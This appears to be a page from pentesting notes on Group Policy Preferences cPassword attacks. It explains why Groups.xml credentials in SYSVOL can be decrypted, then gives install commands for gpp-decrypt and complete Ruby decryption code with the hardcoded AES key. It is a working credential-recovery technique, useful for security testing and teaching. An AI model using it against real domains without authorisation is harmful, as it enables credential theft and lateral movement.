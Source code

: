 {% tab title="GPP cPassword" %}
Group Policy Preferences allowed administrators to create policies using embedded credentials. Those credentials were encrypted and placed in an XML file (called **Groups.xml**), and is located in a part called "`cPassword`". Its encryption type is AES-256-cbc and is usually located in the **SYSVOL folder** at the SMB level. The key was accidentally dropped (whoops). Patched in **MS14-025**, but does not prevent previous uses, i.e. if you had an old Windows Server, where you already had the `cPassword`, and then patched it, it doesn't matter, because it's still there. Here is an [article](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/).

### Manual

* Find the `Groups.xml` file or an .xml file, which is usually located in the Preferences directory. Here is an example of the file:

![](../../../.gitbook/assets/groups\_xml.png)

* We can see that we have a user account named **SVC\_TGS**, which refers to a TGS service with its **cPassword**.
* To decrypt the **cPassword,** we can use the `gpp-decrypt` tool:

```bash
# Installation:
sudo apt-get install gpp-decrypt # Kali/Parrot
wget https://raw.githubusercontent.com/BustedSec/gpp-decrypt/master/gpp-decrypt.rb # Others SOs
# Use:
gpp-decrypt <cPassword>
ruby gpp-decrypt.rb # Remember to open the file and put the cPassword in the "encrypted_data" variable.
```

#### Code

```ruby
#!/usr/bin/ruby

require 'rubygems'
require 'openssl'
require 'base64'

unless ARGV.length == 1
  puts "Usage: #{File.basename($0)}: encrypted_data"
  exit
end

encrypted_data = ARGV[0]
#encrypted_data = "j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw"

def decrypt(encrypted_data)
  padding = "=" * (4 - (encrypted_data.length % 4))
  epassword = "#{encrypted_data}#{padding}"
  decoded = Base64.decode64(epassword)

  key = "\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"
  aes = OpenSSL::Cipher::Cipher.new("AES-256-CBC")
  aes.decrypt
  aes.key = key
  plaintext = aes.update(decoded)
  plaintext << aes.final
  pass = plaintext.unpack('v*').pack('C*') # UNICODE conversion

  return pass
end

blah = decrypt(encrypted_data)
puts blah
```